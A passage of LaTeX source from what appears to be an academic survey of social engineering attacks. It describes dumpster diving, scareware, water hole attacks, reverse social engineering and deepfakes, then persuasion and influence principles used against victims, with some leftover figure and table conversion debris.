    
\includegraphics[width=0.75\linewidth]{phishingflow.png}
%\caption\textbf{Figure 2.} The common flow of phishing attacks.
    \label{fig:placeholder}
\end{figure}
\textbf{Table 2.} Common types of phishing attacks.
 
\paragraph{\textit{2.2. Dumpster Diving}}

The dumpster diving attack is a low-tech method used to obtain information on the target [\href{https://www.mdpi.com/2076-3417/12/12/6042\#B26-applsci-12-06042}{\textbf{26}}]. The process involves going through trash and looking for torn documents, receipts, and other forms of chapter that could contain information on the target. An individual may throw away a piece of chapter that may contain information about a password, pay slip, bill, credit card information, or something containing critical information. Such information can help hackers with several methods to conduct a SE attack on an individual. Dumpster diving is also among the most common methods of identity theft [\href{https://www.mdpi.com/2076-3417/12/12/6042\#B27-applsci-12-06042}{\textbf{27}}]. \href{https://www.mdpi.com/2076-3417/12/12/6042\#fig_body_display_applsci-12-06042-f003}{\textbf{Figure 3}} elaborates on some of the content that can be found in an organization’s dumpster. As seen in \href{https://www.mdpi.com/2076-3417/12/12/6042\#fig_body_display_applsci-12-06042-f003}{\textbf{Figure 3}}, the dumpster could contain any of the mentioned information. Normally these documents or chapters are torn and thrown into the trash. A malicious actor can go through the dumpster and retrieve information to assist in conducting a SE-based attack. 
\begin{figure}
    \justifying
    
\includegraphics[width=0.75\linewidth]{dumpsterdive.png}
    \caption{\textbf{Figure 3.} Content that can be found via dumpster-diving in an organization’s trash.}
    \label{fig:placeholder}
\end{figure}

\paragraph{\textit{2.3. Scareware}}

Scareware can be defined as a type of SE attack that is based on human emotions, i.e., anxiety, shock, manipulation, etc. [\href{https://www.mdpi.com/2076-3417/12/12/6042\#B28-applsci-12-06042}{\textbf{28}}]. The attack uses human emotions to manipulate the user into installing malicious software. The steps involved in a scareware attack can be seen in \href{https://www.mdpi.com/2076-3417/12/12/6042\#fig_body_display_applsci-12-06042-f004}{\textbf{Figure 4}} [\href{https://www.mdpi.com/2076-3417/12/12/6042\#B29-applsci-12-06042}{\textbf{29}}]. It can be seen (in \href{https://www.mdpi.com/2076-3417/12/12/6042\#fig_body_display_applsci-12-06042-f004}{\textbf{Figure 4}}) that hackers use pop-up-based alerts on different sites to engage the target. Once the target clicks the pop-up, he/she is targeted using misinformation. The misinformation is intended to influence the target to perform an act out of panic. The intended act may ask the target for sensitive information or to buy a product to solve the fake issue. In a scareware attack, the hacker only needs to persuade the victim to click on a link. For this persuasion, the attacker can use numerous techniques to influence the victim into installing the scareware malware. The graphical interface of scareware is in many ways an integral part of deceiving victims. The visual representation of the scareware (e.g., a pop-up or a scan report) meritoriously presents a credible and trustworthy application. Most forms of scareware malware adopt color schemes, font styles, and logos that are similar to known brands of antivirus or software products, e.g., Microsoft, Norton antivirus, etc. [\href{https://www.mdpi.com/2076-3417/12/12/6042\#B29-applsci-12-06042}{\textbf{29}}].


% \begin{figure}
     
\includegraphics[width=0.75\linewidth]{scareware.png}
  %   \caption\textbf{Figure 4.} Steps of a scareware attack.
     \label{fig:placeholder}
 %\end{figure}
 
\paragraph{\textit{2.4. Water Hole}}

A water hole attack or water holing is a SE attack inspired by the hunting method of predators in the jungle. In the real world, the predators in the jungle wait near a water hole to attack their prey [\href{https://www.mdpi.com/2076-3417/12/12/6042\#B30-applsci-12-06042}{\textbf{30}}]. \href{https://www.mdpi.com/2076-3417/12/12/6042\#fig_body_display_applsci-12-06042-f005}{\textbf{Figure 5}} provides an overview of how a water hole attack is commonly conducted [\href{https://www.mdpi.com/2076-3417/12/12/6042\#B31-applsci-12-06042}{\textbf{31}}]. In step one, the attacker identifies the organization to target, then uses surveys and other means to identify the browsing habits of the employees. Based on this information, the hackers identify the frequently visited website by the employees. In step two, the attacker compromises the legitimate website. Compromising a secure site could be near impossible, so hackers must identify the website that can be compromised (one that is frequently visited by the employees). In step three, the hackers direct the employee from the original website to a malicious website. This malicious website attempts to identify the vulnerabilities in the victim’s system. To identify the vulnerabilities, hackers use different methods, i.e., operating system fingerprints, analyzing the user-agent string, etc. In step four, the hacker exploits the vulnerability identified by the earlier scan. Once the system is compromised, the hacker can further advance the attack by infecting other systems on the network, achieving the desired goal [\href{https://www.mdpi.com/2076-3417/12/12/6042\#B32-applsci-12-06042}{\textbf{32}}].


 \begin{figure}
    \justifying
     
\includegraphics[width=0.75\linewidth]{waterhole.png}
     \caption{Figure 5.} Steps of a water hole attack.
     \label{fig:placeholder}
 \end{figure}
 
\paragraph{\textit{2.5. Reverse Social Engineering}}

Reverse engineering attacks are among the simplest yet most effective attack methods in SE attacks. Reverse engineering attacks are carried out in two steps. First, the malicious actor creates a problem for the target. The core idea behind the creation of the problem is to initiate an interaction with the target. Second, the malicious actor approaches the victim with the solution to that problem. For example, the foe identifies a potential target in an organization and intentionally creates a problem related to the information technology (IT) department. Later, the foe poses as a person from the IT department, or a benefactor, and offers assistance. Such acts are used to gain the trust of the intended target. With time, the malicious actor gains more trust and exploits the trust factor to gain sensitive information or manipulate the victim. Reverse engineering attacks are very common attacks at an organizational level.

\paragraph{\textit{2.6. Deepfake}}

Deepfake is a recent and highly convincing technique used to conduct SE attacks. Cybercriminals use deepfakes to forge images, audio, and video to achieve a particular goal. In cybersecurity, the deepfake is a growing threat. One of the most well-known algorithms for generating deepfake content is generative adversarial networks (GANs). GANs are a combination of two artificial neural networks (ANNs).These ANNs are called detectors and synthesizers. These ANNs are trained using large datasets of real images, audio, and video clips. Then, the synthesizer ANN generates deepfake content and the detector ANN attempts to distinguish the authenticity of the content. The cycle of generating deepfake content continues until the detector ANN is no longer able to identify the generated fake content as fake. Due to this rigorous process of generation and validation, the generated forged content by GAN is very difficult to identify as fake.  It can be seen that two different faces i.e., Face A and Face B are used to train a network. Later the network is used to generate Face A with expressions or audio from Face B. The newly generated image with the original Face-A interpretation by Face-B can be used to confuse or influence a victim. In  deepfake was employed for the SE attack conducted on a UK-based energy firm. In the attack, the deepfake voice was used to scam the CEO of the company [\href{https://www.mdpi.com/2076-3417/12/12/6042\#B15-applsci-12-06042}{\textbf{15}}]. Other than scamming, deepfake has also been used in several other criminal activities, i.e., blackmailing, damaging reputation, fake news, misinformation, mass panic, etc.


% \begin{figure}
     \justifying
     
\includegraphics[width=0.75\linewidth]{deepfake.png}
 %    \caption{\textbf{Figure 6.} Simplified illustration of training and generating deepfake images or videos.
     \label{fig:placeholder}
% \end{figure}
 
\subsection{\textbf{3. Influence Methodologies}}

To initiate a SE attack, the attacker needs some form of influence on the target. This section discusses the different methods to influence and compromise a victim. The prominent human behavioral aspects that are used to initiate a SE attack are social influence, persuasion, attitude and behavior, trust, fraud, decision making, emotions, language, reasoning, etc. [\href{https://www.mdpi.com/2076-3417/12/12/6042\#B3-applsci-12-06042}{\textbf{3}}]. The mentioned behavioral aspects are also used in cyberattacks based on SE. Based on the victim attributes, the attackers exploit the most suitable human vulnerability. The attackers can also use multiple vulnerabilities at different stages of an attack.

\paragraph{\textit{3.1. Social Influence}}

Social influence includes both intentional and unintentional efforts to alter another person’s behavior or attitude. Usually, social influence works through peripheral processing. In such an approach, the victim may be unaware of the influence attempt by the attacker [\href{https://www.mdpi.com/2076-3417/12/12/6042\#B37-applsci-12-06042}{\textbf{37}}]. In general, social influences are categorized into three types utilitarian, value-expressive, and informational [\href{https://www.mdpi.com/2076-3417/12/12/6042\#B38-applsci-12-06042}{\textbf{38}}].Informational influence refers to the influence of an individual over a particular group. For example, while shopping, a member of a group suggests what to buy based on earlier ‘experience’ information. The utilitarian influence refers to the influence on an individual or a group based on a reward or something similar. Value expression influence is influence due to interests or beliefs. For instance, on social media, people join groups based on their hobbies and interests. To further elaborate on how these influence methods work, \href{https://www.mdpi.com/2076-3417/12/12/6042\#table_body_display_applsci-12-06042-t003}{\textbf{Table 3}} provides a more detailed look into social influence interlinked with SE attacks.

\textbf{Table 3.} Social influence methods related to cyberattacks based on social engineering.



 
\paragraph{\textit{3.2. Persuasion}}

Social engineering relies on persuasion methods to manipulate victims into performing actions or revealing confidential information. Persuasion is a well-known method that is used in several other domains, such as sales, marketing, insurance, and others. etc. [\href{https://www.mdpi.com/2076-3417/12/12/6042\#B44-applsci-12-06042}{\textbf{44}}]. As per Robert Cialdini [\href{https://www.mdpi.com/2076-3417/12/12/6042\#B45-applsci-12-06042}{\textbf{45}}], there are six main principles of persuasion—reciprocation, commitment and consistency, social proof, authority, liking, and scarcity. Reciprocation defines the behavior in which an individual replies to kindness with kindness. For example, if a coworker buys you lunch; you will feel obliged to buy him/her lunch the next time. A sense of commitment and consistency can be defined as a desire to be consistent with behavior. This behavior can include moral values, music, favorite food, etc. Social proof can be referred to as peer pressure. It refers to the intentional or unintentional acts of doing what everyone else is doing, (e.g., if a group is looking out of a window, anyone who sees them will also look out of the window). The principle of liking is simply the act of agreeing with people whom we like. Similarly, the principle of authority refers to the act or tendency of individuals to follow authority. The principle of scarcity refers to the approach of persuasion using time-based constraints. For example, limited-time sales are used to persuade potential buyers to buy products before time runs out and the product price is increased. These six principles play a key role in SE attacks that rely on persuasion. Further, \textbf{Table 4} highlights some of the persuasion methods used in conducting cyberattacks based on SE.

\textbf{Table 4.} Persuasion types used in social engineering attacks.
 
\paragraph{\textit{3.3. Attitude and Behavior}}

The theory of planned behavior (TPB) describes a psychological model to predict behavior. The TPB model can be seen in \textbf{Figure 7} [\href{https://www.mdpi.com/2076-3417/12/12/6042\#B52-applsci-12-06042}{\textbf{52}}]. The ‘attitude toward the behavior’ defines the motivation factors, i.e., the effort a person is willing to put in, to show a certain behavior. For example, an individual on social media might not be willing to share personal information but might participate in an online activity where privacy might be in significant danger. The ‘subjective norm’ defines an individual’s behavior influenced by his/her social circle. A person may align his/her behavior to be associated with a group. The ‘perceived behavior control’ indicates the level of control an individual has over a certain behavior. The three branches of TPB can be used to encourage a victim into revealing information based on the behavioral stimulus [\href{https://www.mdpi.com/2076-3417/12/12/6042\#B53-applsci-12-06042}{\textbf{53}}].
\begin{figure}
    \justifying
